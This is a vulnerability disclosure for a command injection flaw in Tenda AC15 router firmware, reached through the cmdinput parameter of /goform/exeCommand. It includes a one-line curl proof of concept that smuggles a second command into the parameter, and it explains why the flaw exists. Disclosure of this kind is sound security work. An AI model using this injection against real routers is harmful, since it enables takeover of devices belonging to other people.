

**Vendor of the products:** Tenda

**Affected Device:** Tenda AC15

**Version:** V1.0BR_V15.03.05.18

**Firmware Download:** https://www.tenda.com.cn/material/show/2710


**Vulnerability Description:** A command injection vulnerability was discovered in Tenda AC15 V1.0BR_V15.03.05.18, triggered by the cmdinput parameter in /goform/exeCommand. Attackers can exploit this vulnerability by crafting malicious packets to execute arbitrary commands, thereby gaining full control of the target device.


# POC:

```bash
curl http://192.168.0.1/goform/exeCommand?cmdinput=;touch /tmp/hack.txt
```


# Vulnerability Effect:

It can be seen that the file has been successfully created and the command has been executed successfully. 


# Vulnerability Cause:

In the formexeCommand function, the program first obtains the value of  the "cmdinput" parameter, then directly concatenates it into the  doSystemCmd function for execution without any security checks. This  allows attackers to execute arbitrary commands and thus gain full  control of the device.



 